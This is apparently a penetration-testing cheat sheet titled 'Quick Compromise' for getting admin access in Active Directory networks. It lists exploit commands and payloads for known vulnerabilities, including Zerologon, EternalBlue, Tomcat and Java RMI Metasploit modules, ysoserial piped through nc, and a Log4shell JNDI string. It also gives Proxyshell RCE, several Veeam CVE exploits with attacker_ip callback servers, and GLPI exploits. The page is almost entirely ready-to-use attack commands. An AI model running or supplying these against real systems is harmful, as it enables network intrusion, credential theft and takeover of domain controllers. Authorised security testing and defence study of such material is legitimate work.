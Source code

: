 ```yaml
---
title: "Quick Compromise"
description: "Quick Compromise techniques and commands for Active Directory security assessment."
---
```

## ⚠️ Zerologon (unsafe) CVE-2020-1472 @CVE@ >>> Domain admin
- `zerologon-scan '<dc_netbios_name>' '<ip>'`
- `cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>`

## Eternal Blue MS17-010 @CVE@ >>> Admin || Low access
- `msf> exploit/windows/smb/ms17_010_eternalblue # SMBv1 only`

## Tomcat/Jboss Manager >>> Admin || Low access
- `msf> auxiliary/scanner/http/tomcat_enum`
- `msf> exploit/multi/http/tomcat_mgr_deploy`

## Java RMI >>> Admin || Low access
- `msf> use exploit/multi/misc/java_rmi_server`

## Java Serialiszed port >>> Admin || Low access
- `ysoserial.jar <gadget> '<cmd>' |nc <ip> <port>`

## Log4shell >>> Admin || Low access
- ${jndi:ldap://<ip>:<port>/o=reference}

## Database >>> Admin || Low access
- `msf> use auxiliary/admin/mssql/mssql_enum_sql_logins`

## Exchange >>> Admin
- Proxyshell @CVE@
  - `proxyshell_rce.py -u https://<exchange> -e administrator@<domain>`

## Veeam >>> User Account || Low access || Admin
- CVE-2023-27532 (creds - Veeam backup) @CVE@
  - `VeeamHax.exe --target <veeam_server>`
  - `CVE-2023-27532 net.tcp:/<target>:<port>/`
- CVE-2024-29849 (auth bypass - Veeam Backup Enterprise Manager) @CVE@
  - `CVE-2024-29849.py --target https://<veeam_ip>:<veeam_port>/ --callback-server <attacker_ip>:<port>`
- CVE-2024-29855 (auth bypass - Veeam Recovery Orchestrator) @CVE@
  - `CVE-2024-29855.py  --start_time <start_time_epoch> --end_time <end_time_epoch> --username <user>@<domain> --target https://<veeam_ip>:<veeam_port>/`
- CVE-2024-40711 (unserialize - Veeam backup) @CVE@
  - `CVE-2024-40711.exe -f binaryformatter -g Veeam -c http://<attacker_ip>:8000/trigger --targetveeam <veeam_ip>`

## GLPI >>> Admin || Low access
- CVE-2022-35914 @CVE@
  - /vendor/htmlawed/htmlawed/htmLawedTest.php
- CVE_2023_41320 @CVE@
  - `cve_2023_41320.py -u <user> -p <password> -t <ip>`

## Weak websites / services
- nuclei
  - `nuclei -target <ip_range>`
- nessus